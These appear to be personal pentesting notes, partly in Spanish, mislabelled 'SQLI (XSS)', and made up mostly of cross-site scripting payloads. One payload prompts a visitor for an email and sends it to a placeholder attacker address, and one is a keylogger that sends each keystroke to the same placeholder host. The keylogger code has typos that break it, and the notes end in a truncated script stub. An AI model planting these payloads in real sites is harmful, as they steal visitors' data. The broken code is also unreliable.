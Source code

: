 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

xss
```python
<script>alert("XSS")</script>
```
xss
```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

xss keylogger
```python
<script>
	var k = "";
	document.onkeypress = funtion(e){
	e = e weindow.event;
	k += e.key
	var i = new Imagen();
	i.src = "http://MI-IP:PUERTO/" + k;
	}
</script>
```

```python
 #!/usr/bin/python3
import
```